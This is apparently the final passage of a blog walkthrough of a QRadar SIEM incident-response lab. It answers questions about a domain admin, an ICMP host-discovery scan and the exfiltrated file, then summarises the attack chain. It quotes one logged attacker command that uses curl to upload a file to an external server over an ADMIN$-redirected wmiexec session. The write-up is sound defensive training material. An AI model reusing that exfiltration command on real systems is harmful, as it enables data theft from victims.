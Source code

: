 ![Curl Exfiltration Activity](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*okPEuEnbCUKngnrqe7XU_A.png)

Query returns 1 event, and reviewing the command line process, we can see the use of curl to upload the file.

```cmd
cmd.exe /Q /c curl -X PUT --upload-file sami.xlsx http://192.20.80.25:8000 1> \\127.0.0.1\ADMIN$\__1604917392.4554174 2>&1
```

Noticing the sami.xlsx, considering the curl -X PUT, assuming 192.20.80.25:8000 accepts PUT requests, the file would be uploaded there, and earlier in the scenario, we noticed sami.xlsx being deleted.

**Q22: Who is the other legitimate domain admin other than the administrator?**

We can find this by filtering on event id 4672, which is when an administrator-level account logs on.

![Administrator Logon Events](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*8VuMOsOUdyPj7CZJtcBxwA.png)

**Q23: The attacker used the host discovery technique to know how many hosts available in a certain network, what is the network the hacker scanned from the host IP 1 to 30?**

To find information on the network the threat actor scanned from the host IP 1 to 30, we can filter on port 8 for ICMP requests, and reviewing the destination IPs. Based off the logs, we can conclude from the second compromised host at 192.168.10.15, the threat actor is scanning the destination IP range from 192.168.20.X

![ICMP Host Discovery Scan](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*6wiZeyuvow53KyX1dfIE8g.png)

**Q24: What is the name of the employee who hired the attacker?**

Going back to the suspicious .xlsx file that was exfiltrated, although we do not know the contents, we do know the file name was "sami.xlsx", which was uploaded through wmiexec.py. We can infer that sami is a name, and potentially the file came from an employee named sami, which was confirmed by the answer.

## Overview

From what I observed, the attacker gained initial access through a malicious document (important_instructions.docx), which executed a payload (FSETPBEUsIek.exe) on the host 192.168.10.55 under the user "nour". Using PowerShell and wmiexec.py, the attacker escalated privileges, created a new account, and moved laterally to another host (192.168.10.15). They performed host discovery using ICMP scans (possibly through the use of nmap), searched for sensitive project data related to "project48", and ultimately exfiltrated the file _sami.xlsx_ to their external server on 192.20.80.25:8000 using curl. Finally, they attempted to cover their tracks by deleting evidence and checking logging configurations. The threat actor demonstrated thorough persistence techniques, privilege escalation, lateral movement, and data exfiltration.

## Key Takeaways

- QRadar provides powerful log analysis capabilities for incident response
- Understanding AQL (Ariel Query Language) is essential for effective SIEM analysis
- Event correlation helps identify complex attack chains
- Proper log parsing and filtering is crucial for threat hunting
- Attackers often use common tools like PowerShell, wmiexec, and curl for lateral movement and exfiltration

